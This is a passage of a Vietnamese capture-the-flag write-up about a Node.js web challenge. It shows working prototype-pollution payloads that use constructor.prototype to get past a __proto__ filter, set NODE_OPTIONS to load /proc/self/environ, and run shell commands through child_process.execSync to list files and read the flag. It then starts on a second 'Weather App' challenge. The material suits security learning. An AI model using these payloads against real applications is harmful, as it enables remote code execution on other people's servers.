 ![image](https://user-images.githubusercontent.com/86275419/229116555-39be01a1-5566-43d2-857c-ca82a4486a2c.png)

Đoạn code trên có chức năng kiểm tra điểm của người đó xem có đỗ hay là không, nếu không đỗ thì sẽ trả vể kết quả gồm `n` + 10 ký tự `oO` random + `pe`, nếu đỗ sẽ trả về `Passed`. Nhìn chung ở đây không có lỗ hổng

Ờ bài này còn có một chức năng khác khi ta truy cập vào `/debug/:action`, ta sẽ xem code ở chức năng này

![image](https://user-images.githubusercontent.com/86275419/229121269-30f3794b-1e28-4d78-b23a-18647401117a.png)

Ở đây ta có thể chắc chắn rằng bài này có thể RCE thông qua lỗ hổng `Prototype pollution` vì ở trong chức năng này có một hàm có thể tạo `child_process` đó là `fork`. 

Vì trong bài này đã filter khi ta sử dụng `__proto__` nhưng ta vẫn còn một cách khác để truy cập vào `Object.prototype` đó là thông qua `constructor.prototype` 

Giờ ta chỉ cần lên [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#poisoning-constructor.prototype) lấy payload về và chạy thôi. Mọi người lưu ý là do payload ở hacktricks nằm trong dấu `'` nên khi sử dụng ta phải bỏ hai dấu `\\` ở `\\\"` để nó khỏi convert thành `\"`

Lúc đầu mình thử cat flag ra luôn nhưng không được nên phải list thư mục ra xem 

`{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\"child_process\").execSync(\"ls\").toString())//"}}}}`

![image](https://user-images.githubusercontent.com/86275419/229122951-28a7040a-8ac3-436f-bbf6-259a9c09fc2b.png)

Kết quả

![image](https://user-images.githubusercontent.com/86275419/229122996-ac73bc22-0255-4406-a762-b809343903c5.png)

File flag là `flag_e1T6f`, đã có tên file giờ ta sẽ cat ra và lấy flag thôi

`{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\"child_process\").execSync(\"cat flag_e1T6f\").toString())//"}}}}`

![image](https://user-images.githubusercontent.com/86275419/229123302-ebee915e-8ff1-4eb5-ba08-059474d7d988.png)

Kết quả 

![image](https://user-images.githubusercontent.com/86275419/229123466-5123ccbd-fd2b-4886-bdbd-7479d0d6c7ae.png)

# Weather App

Truy cập vào web sẽ cho ta một trang xem nhiệt độ

![image](https://user-images.githubusercontent.com/86275419/229190075-69f1b3ae-9afa-40f0-a306-08616b003d60.png)

Không còn chức năng nào khác nên mình vào đọc source code luôn

![image](https://user-images.githubusercontent.com/86275419/229191561-6d9fe4bc-3be3-40cd-932f-4d7363681263.png)

Lúc đầu vào app sẽ tạo database với 1 user có username là `admin` và password sẽ được gen ngẫu nhiên
